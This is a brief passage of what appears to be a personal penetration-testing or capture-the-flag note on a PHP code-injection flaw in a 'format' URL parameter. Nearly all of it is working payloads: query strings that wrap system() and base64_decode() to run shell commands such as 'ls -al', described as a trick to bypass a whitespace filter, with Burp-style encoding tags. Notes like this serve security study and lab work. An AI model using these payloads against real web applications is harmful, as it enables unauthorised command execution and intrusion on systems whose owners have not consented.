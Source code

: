 White-space error bypass using base64:
`/?format=<@urlencode_all>${system(base64_decode(<@base64>ls -al<@/base64>))}<@/urlencode_all>`

![Pasted image 20210505114048.png](../../zzz_res/attachments/Pasted_image_20210505114048.png)

`/?format=${system(base64_decode(<@base64>ls ../<@/base64>))}`
